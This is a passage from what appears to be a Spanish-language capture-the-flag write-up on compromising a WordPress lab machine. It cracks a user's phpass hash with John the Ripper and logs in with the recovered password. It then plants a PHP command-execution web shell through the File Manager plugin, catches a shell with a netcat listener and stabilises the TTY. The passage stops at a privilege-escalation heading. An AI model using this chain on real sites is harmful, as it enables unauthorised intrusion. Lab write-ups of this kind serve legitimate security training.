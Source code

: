 Por lo que finalmente hemos conseguido el usuario "Ariel" y su contraseña hasheada. Ahora podemos intentar deshashear la contraseña usando la herramienta "john the ripper" simplemente tenemos que copiar y meter el hash en un archivo llamado hash.txt y ejecutar el siguiente comando:

```ruby
john --wordlist=/path/to/wordlist.txt --format=phpass hash.txt
```

En este caso, podriamos usar de wordlist la supuesta "advertencia" que habia en "/WebTestprogress/.advertencia".

Al usar la wordlist con john nos devuelve lo siguiente:

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
NoTeMetasConElGobierno (?)     
1g 0:00:00:00 DONE (2024-08-09 18:32) 16.66g/s 5266p/s 5266c/s 5266C/s NoTeMetasConElG*ConElGobierno..NoTeMeta@ierno
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Por lo que finalmente sabemos que la contraseña del wordpress es "NoTeMetasConElGobierno" con usuario "Ariel"

Ya estando en wordpress, vamos a la seccion "añadir plguins", agregamos y activamos el plugin "File Manager". Ahora vamos a la nueva sección del plugin y creamos un  ".php" con una reverse shell o que nos permita ejecutar comandos, en mi caso usé el siguiente:

```php
<?php
      system($_GET['cmd']);
?>
```

Ahora solo creamos un archivo en wp-content con nuestra reverse shell(o que nos permita ejecutar comandos) y listo, escuchamos con netcat usando `nc -nlvp 443` y finalmente estamos dentro.

# TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty hay que ejecutar los siguientes comandos:

```css
script /dev/null -c bash
(presionamos ctrl+z)
stty raw -echo; fg
	reset xterm
export TERM=xterm && export SHELL=bash
```

# ESCALADA DE PRIVILEGIOS
